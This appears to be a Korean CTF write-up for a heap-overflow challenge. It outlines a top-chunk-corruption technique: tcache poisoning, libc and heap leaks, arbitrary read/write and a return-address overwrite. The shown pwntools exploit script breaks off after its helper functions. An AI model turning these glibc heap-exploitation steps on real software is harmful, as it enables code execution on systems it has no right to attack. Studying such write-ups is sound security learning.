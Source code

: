 위 코드를 보면, 이미 할당한 heap에 대한 data를 수정할 수 있다.
그런데, modify를 진행할 때 size에 대한 검증이 없다. 때문에, 바로 heap overflow가 발생한다.

그러면 그냥 익스하면 되지 않나요? 싶지만...

```cpp
void delete_func() 
{
    cout << "not implemented.\n" << endl;
}
```

free가 구현되어 있지 않은 리소스 낭비를 제대로 하는 문제다.

이 때문에 overflow가 발생하더라도 어떻게 exploit을 할지가 매우 애매하다.

우리는 exploit을 위해 glibc에서 ptmalloc의 구현을 알아야 한다. (코드는 직접 읽어보길 권장)

ptmalloc의 구현상, top chunk보다 할당해주려 하는 heap size가 더 크면, 즉, 할당된 heap 공간을 모두 사용하게 되어버리면 이미 할당된 힙 세그먼트 공간을 추가로 확장하고 새로 확장된 공간부터 heap chunk들을 새로 할당하기 시작한다.

이렇게 되는 과정 중에서 top chunk가 free되게 되는데, 우리는 이 점을 통해 freed chunk를 만들어줄 수 있다.

exploit은 아래의 과정을 통해 진행할 수 있다.

1. overflow를 통해 top chunk를 적절히 free시키고 싶은 size로 변조 (이 때, 설정하려 하는 size와 기존의 top chunk의 하위 1.5byte가 달라지면 raise가 발생한다.)
2. 적절히 변조한 top chunk보다 더 큰 size의 heap을 생성
3. 위를 적절히 반복해서 tcache bin chain을 생성
4. unsorted bin으로 들어가는 size의 free도 진행
5. overflow를 통해 libc address(address of main arena)가 있는 곳까지 data를 이어붙여서 libc leak
6. 같은 방법으로 heap도 leak (tcache bin에서의 fd를 encoding하기 위해 필요한 과정)
7. 이제 tcache bin의 fd를 수정하여 aaw, aar을 획득.
8. 이후에는 적절히.. exploit..

개인적으로 출제자는 reliable한 exploit을 좋아해서 environ을 통해 stack을 leak하고 return address를 덮어씌우는 것을 좋아합니다.

```python
from pwn import *

e = ELF('./prob')

# p = e.process(aslr=False)
p = remote('0', 51253)

sla = p.sendlineafter
sa = p.sendafter

def new(size, buf):
    sla(b'> ', b'1')
    sla(b': ', str(size).encode() + buf)

def delete():
    sla(b'> ', b'2')

def cout(idx):
    sla(b'> ', b'3')
    sla(b': ', str(idx).encode())

def modify(idx, size, buf):
    sla(b'> ', b'4')
    sla(b': ', str(idx).encode())
    sla(b': ', str(size).encode() + buf)

def encode(val, xor):
  val = (val ^ (xor >> 12))
  return val

new(0x10, b'A'*0x10) # 0
```